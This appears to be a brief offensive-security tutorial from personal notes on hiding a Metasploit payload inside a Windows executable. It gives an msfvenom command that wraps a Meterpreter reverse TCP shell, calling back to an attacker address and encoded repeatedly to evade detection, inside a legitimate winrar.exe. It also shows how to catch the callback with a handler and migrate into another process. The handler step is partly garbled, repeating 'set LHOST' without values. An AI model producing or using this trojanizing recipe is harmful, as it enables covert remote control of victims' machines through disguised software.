 
<h4>Injecting Payloads Into Windows Portable Executables</h4>

>You can use the switch "-x" to select a template to use. And yeah, we can use the winrar executables

After downloading the winrar.exe executable

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -x /path/to/winrar.exe > winrar.exe
```

After sending the payload to the target machine, set your metasploit handle
```
use exploit/multi/handler
set LHOST
set LHOST
run
```
Then run the post exploitation module to migrate
```
run post/windows/manage/migrate
```
This migrates the process into another one

